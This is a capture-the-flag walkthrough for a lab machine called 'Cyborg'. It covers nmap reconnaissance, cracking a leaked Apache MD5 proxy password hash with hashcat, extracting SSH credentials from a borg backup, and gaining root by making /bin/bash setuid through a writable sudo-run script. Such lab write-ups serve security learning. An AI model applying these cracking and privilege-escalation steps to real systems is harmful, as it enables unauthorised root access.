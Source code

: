 # Cyborg

We'll start with our usual nmap-scan:

> `sudo nmap 10.10.196.112 -Pn -p- -A -vv -T4 --script discovery,vuln -oN nmap-scan --min-parallelism 55`

From that we learn:

1. Services:

> `cat nmap-scan | grep -o -e '[0-9]\+/tcp.*'`

- 22/tcp open  ssh     syn-ack ttl 63 OpenSSH 7.2p2 Ubuntu 4ubuntu2.10 (Ubuntu Linux; protocol 2.0)
- 80/tcp open  http    syn-ack ttl 63 Apache httpd 2.4.18 ((Ubuntu))

2. Directories:

> `cat nmap-scan | grep -v nmap | grep -o -e '[[:space:]]\+/[a-zA-Z0-9]\+/.*' | grep -o -e '/[a-zA-Z0-9]\+/.*' | sort | uniq`

- /admin/admin.html: Possible admin folder
- /admin/: Possible admin folder
- /etc/: Potentially interesting directory w/ listing on 'apache/2.4.18 (ubuntu)'
- /icons/

3. Credentials:

Under ***/etc/squid/passwd*** we can find the next pair of credentials:

- music_archive:$apr1$BpZ.Q.1m$F0qqPwHSOG50URuOVQTTn.

Let's identify that hash:

> `name-that-hash --text '$apr1$BpZ.Q.1m$F0qqPwHSOG50URuOVQTTn.'`

Most Likely:
- MD5(APR), HC: 1600 
- Apache MD5, HC: 1600 
- md5apr1, HC: 1600 

That hash camn be easily cracked with hashcat:

> `hashcat --force -m 1600 -a 0 hash.txt ~/CyberSecurity/SecLists/Passwords/Leaked-Databases/rockyou.txt`

The next thing we're gonna look at, is a config file at ***/etc/squid/squid.conf***:

> auth_param basic program /usr/lib64/squid/basic_ncsa_auth /etc/squid/passwd
>
> auth_param basic children 5
> 
> auth_param basic realm Squid Basic Authentication
>
> auth_param basic credentialsttl 2 hours
>
> acl auth_users proxy_auth REQUIRED
>
> http_access allow auth_users

Ok. Moving on to ***/admin/***. We'll see a navbar on top, there's an 'archive'
dropdown. One of the options is 'download'. After clicking on it, you're presented
with a ***archive.tar*** file. Unpack it using the following command:

> `tar -xf archive.tar`

And navigate inside ***/home/field/dev/final_archive*** directory.

After reaading the README file, we find out that we need to install borg:

> `sudo apt install borgbackup`

Do

> `borg list .`

And enter the cracked password for music archive. Seems that we've found a repository.
Let's find out its contents:

> `cd ../../../../`
>
> `mkdir repository`
> 
> `borg mount home/field/dev/final_archive repository`
>
> `repository/music_archive/home/alex`
>
> `tree -L 3 .`

A 'secret.txt' is just a taunt, but in the 'note.txt' we find ssh credentials!
To get 'user.txt', just login to ssh with those.

---

## ***Privilege escalation***

We'll start with finding out, what can we run with sudo:

> `sudo -l`

- (ALL : ALL) NOPASSWD: /etc/mp3backups/backup.sh

Since alex can edit the file, just add the following line:

> `chmod u+s /bin/bash`

and get a root shell:

> `/bin/bash -p`

Now you can get the flag at /root directory.

### ***Note:***

The -p option in bash is related to security. It is used to prevent the shell 
reading user-controlled files.

The bash manual says:

Invoked with unequal effective and real uid/gids

If Bash is started with the effective user (group) id not equal to the real user (group) 
id, and the -p option is not supplied, no startup files are read, shell functions are 
not inherited from the environment, the SHELLOPTS, BASHOPTS, CDPATH, and GLOBIGNORE 
variables, if they appear in the environment, are ignored, and the effective user id is 
set to the real user id. If the -p option is supplied at invocation, the startup 
behavior is the same, but the effective user id is not reset.
